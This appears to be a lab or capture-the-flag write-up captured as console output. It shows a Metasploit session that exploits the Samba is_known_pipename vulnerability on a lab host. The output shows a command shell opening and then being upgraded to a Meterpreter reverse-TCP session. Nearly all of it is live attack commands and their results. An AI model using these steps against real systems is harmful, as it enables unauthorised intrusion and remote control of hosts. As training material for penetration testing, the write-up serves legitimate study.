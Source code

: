 ```

Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.153.226.3:445 - Using location \\192.153.226.3\exploitable\tmp for the path
[*] 192.153.226.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.153.226.3:445 - Share 'exploitable' has server-side path '/
[*] 192.153.226.3:445 - Uploaded payload to \\192.153.226.3\exploitable\tmp\DbWGJFwM.so
[*] 192.153.226.3:445 - Loading the payload from server-side path /tmp/DbWGJFwM.so using \\PIPE\/tmp/DbWGJFwM.so...
[-] 192.153.226.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.153.226.3:445 - Loading the payload from server-side path /tmp/DbWGJFwM.so using /tmp/DbWGJFwM.so...
[+] 192.153.226.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.153.226.2:35051 -> 192.153.226.3:445) at 2023-03-17 13:05:53 +0000

pwd
/tmp
```

```
^Z
Background session 1? [y/N]  y
msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.153.226.2:35051 -> 192.153.226.3:445 (192.153.226.3)

msf5 exploit(linux/samba/is_known_pipename) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.153.226.2:4433 
[*] Sending stage (985320 bytes) to 192.153.226.3
[*] Meterpreter session 2 opened (192.153.226.2:4433 -> 192.153.226.3:52802) at 2023-03-17 13:09:08 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(linux/samba/is_known_pipename) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```
